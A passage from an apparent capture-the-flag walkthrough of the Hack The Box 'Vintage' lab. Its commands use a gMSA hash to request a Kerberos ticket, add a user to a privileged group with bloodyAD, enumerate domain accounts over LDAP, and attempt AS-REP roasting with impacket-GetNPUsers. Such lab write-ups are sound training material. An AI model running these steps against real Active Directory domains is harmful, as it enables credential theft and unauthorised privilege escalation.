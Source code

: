 ```
impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
 
[*] Saving ticket in GMSA01$.ccache
```
We will now make this environment variable 
```
export KRB5CCNAME=GMSA01\$.ccache
```
We will then add P.Rosa to SERVICEMANAGERS, use GMSA creds, and then generate own creds
```
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"

[+] P.Rosa added to SERVICEMANAGERS
```

```
impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
 
[*] Saving ticket in P.Rosa.ccache
```
Now make this environment variable 
```
export KRB5CCNAME=P.Rosa.ccache 
```
Try to use this ticket to list users who do not need Kerberos domain authentication, first generate a username list of users in the domain 
```
ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt   

cat usernames.txt 
Administrator
Guest
DC01$
krbtgt
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```
Then we will use impacket-GetNPUsers to list users who do not require Kerberos domain authentication 
```
impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```